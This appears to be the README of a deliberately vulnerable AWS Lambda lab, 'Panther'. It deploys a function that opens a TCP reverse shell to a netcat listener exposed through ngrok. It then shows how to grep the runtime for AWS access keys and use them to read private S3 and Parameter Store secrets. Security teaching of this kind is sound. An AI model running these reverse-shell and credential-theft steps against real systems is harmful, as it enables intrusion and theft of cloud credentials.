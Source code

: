 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)

## Deploying The Function and Resources

```bash
cd /PATH/TO/panther
aws configure
npm install
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

In addition to deploying the function, this will create a private S3 Bucket with an image. The Lambda role will have unnecessary permissions to access these resources as well as to an AWS Parameter Store path to demonstrate the damage that can be done by exfiltrating credentials from the runtime environment.

To store a secret in the aforementioned Parameter Store path, run the following:

```bash
aws ssm put-parameter --name /panther/YOUR_KEY --value YOUR_VALUE --type SecureString
```

## Testing in AWS

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details and API key:

```bash
curl 'https://YOUR_API_GATEWAY_ID.execute-api.us-east-1.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
go get -u golang.org/x/lint/golint
npm run lint
```

## Pilfering the Lambda Environment

### Retrieving Access Keys

Within a Panther reverse shell session:

```bash
env | grep ACCESS
env | grep AWS_SESSION_TOKEN
```

### Accessing Private Resources

On your local machine, export the environment variables retrieved in the previous step and run the following commands:

```bash
aws s3 cp s3://panther-$BUCKET_SUFFIX/assets/panther.jpg .
aws ssm get-parameter --name /panther/YOUR_KEY --with-decryption
```

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
